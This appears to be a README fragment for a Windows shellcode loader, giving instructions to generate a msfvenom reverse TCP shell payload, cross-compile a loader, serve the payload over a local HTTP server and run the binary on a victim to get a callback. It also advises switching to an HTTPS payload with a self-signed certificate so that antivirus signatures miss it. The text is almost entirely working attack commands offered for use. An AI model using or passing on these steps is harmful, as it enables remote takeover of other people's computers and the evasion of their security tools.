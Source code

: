 >To make this work,create a msfvenom payload

>msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.130.175 LPORT=8000 -f raw >beacon.bin

>Compile .cpp using the command:- x86_64-w64-mingw32-g++ --static -o pay.exe simple.cpp -fpermissive -lws2_32

>Host the payload file using a http server :- python3 -m http.server


>Run the binary on the victim to get a call back.

>The payload will get detected after a while,make sure to use https encrypted payload.

>create your own ssl self signed certificate to use it for the https reverse payload ,since the one used by metasploit is signatured.

